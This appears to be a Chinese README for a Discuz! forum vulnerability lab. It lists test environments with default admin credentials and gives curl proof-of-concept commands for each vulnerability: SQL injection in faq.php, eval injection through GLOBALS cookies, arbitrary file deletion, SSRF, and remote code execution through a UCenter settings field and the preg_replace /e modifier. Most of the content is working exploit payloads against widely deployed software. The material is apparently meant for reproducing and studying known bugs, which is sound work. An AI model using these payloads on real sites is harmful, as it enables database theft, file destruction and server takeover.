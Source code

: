 ## 环境说明

* src/discuz/x3.1
  * 后台地址http://127.0.0.1/admin.php
  * 管理员账号admin/admin
  * 测试账号test/123456
  * 更新日期20150609
* src/discuz/x3.0
  - 后台地址http://127.0.0.1/admin.php
  - 管理员账号admin/admin
  - 更新日期20130511

## faq.php gids 报错注入

测试镜像

* src/discuz/7.2/

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```

## Discuz! 6.x/7.x 全局变量防御绕过漏洞

测试镜像

* src/discuz/7.2/

影响版本

* 6.X
* 7.X

参考链接

* [Discuz! 6.x/7.x 全局变量防御绕过导致命令执行](https://www.secpulse.com/archives/2338.html)

Poc - 替换帖子为正确地址

```
curl '127.0.0.1/viewthread.php?tid=13&extra=page%3D1' -H 'Cookie: GLOBALS[_DCACHE][smilies][searcharray] = /.*/eui; GLOBALS[_DCACHE][smilies][replacearray] = eval%28%24_POST%5BMH%5D%29%3B' -d 'MH=die(md5(1));'
```

## birthprovince 任意文件删除

测试镜像

* src/discuz/x3.2/

影响版本 

* <= X3.2

参考链接

* [Discuz!X前台任意文件删除漏洞重现及分析](http://www.freebuf.com/vuls/149904.html)

Poc

```
设置要删除的文件
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -d 'birthprovince=../../../hello.txt&profilesubmit=1&formhash=...' -H 'Cookie: ...''

触发漏洞
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -F 'profilesubmit=1' -F 'formhash=...' -F birthprovince=@1.jpg -H 'Cookie: ...'
```



## Discuz X门户文章功能SSRF漏洞

测试镜像

- src/discuz/x3.1

影响版本 

- Discuz X系列 <= X3.1

参考链接

- [Discuz X系列门户文章功能SSRF漏洞挖掘与分析](https://www.anquanke.com/post/id/84000)

Poc

使用测试账号test/123456登陆首页，访问url

```
http://172.17.0.2/forum.php?mod=redirect&goto=findpost&modthreadkey=1&ptid=1&pid=1
```

在跳转后的页面URL：

```
http://172.17.0.2/forum.php?mod=viewthread&tid=1&page=1&modthreadkey=c3564b479d72b05e136e62e2af4762c4#pid1
```

包含modthreadkey参数，在跳转后的页面源码中包含formhash参数，

```html
<input type="hidden" name="formhash" value="7d96833f" />
```

从控制台查看network获取当前cookie，构造SSRF触发链接

```
curl --cookie "获取的cookie" -d "a=a" "http://172.17.0.2/portal.php?mod=portalcp&ac=upload&aid=1&catid=1&op=downremotefile&formhash=7d96833f&modarticlekey=c3564b479d72b05e136e62e2af4762c4&content=%3Cimg%20src=http://172.17.0.1/test_ssrf%231.png%3E
```

其中参数formhash为页面源码中获取的formhash，modarticlekey为跳转链接中的modthreadkey参数，172.17.0.1为SSRF请求的目标机器IP，在该机器上监听80端口，执行以上curl即可触发SSRF



## Discuz X后台任意代码执行漏洞

测试镜像

- src/discuz/x3.1

影响版本 

- Discuz X系列 <= X3.3

参考链接

- [Discuz X3.3补丁安全分析](https://www.anquanke.com/post/id/86679)

Poc

使用管理员账号登录后台，在 站长->UCenter设置 页面 修改UCenter 数据库账号为shell-test 密码为 123');phpinfo();//  （该账号已预先添加至测试环境），提交后刷新该设置页面即可。



## Discuz X已知UCenter app_key代码执行漏洞

测试镜像

- src/discuz/x3.0

影响版本 

- Discuz X系列

参考链接

- [Discuz! X系列远程代码执行漏洞分析](https://www.secpulse.com/archives/35819.html)

Poc

（环境已修改api/uc.php用于生成app_key加密数据）

访问包含formhash的页面，获取其中的formhash的value值:

```
curl -c cookie.txt "http://172.17.0.2/forum.php" | grep 'formhash" value'
```

访问加密页面获取code:

```
curl "http://172.17.0.2/api/uc.php?encode=1" 
```

通过获取到的变量formhash和code构造并访问链接：

```
curl -X POST -b cookie.txt --data-raw "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>
<root>
    <item id=\"balabala\">
        <item id=\"findpattern\">/.*/e</item>
        <item id=\"replacement\">phpinfo();</item>
    </item>
</root>" "http://172.17.0.2/api/uc.php?formhash=dcac5793&code=0a54WTlZk7uY1TIjIKkpC7bkLgwxnAqnylWAKYTqnbWg0NGt20SBEAeKq6ibWeV81M2MHYFj%2FAd1t3hwZSc64hyG" && rm -f cookie.txt
```

使用管理员账号登录后台，在 用户->添加用户 页面添加任意用户触发命令执行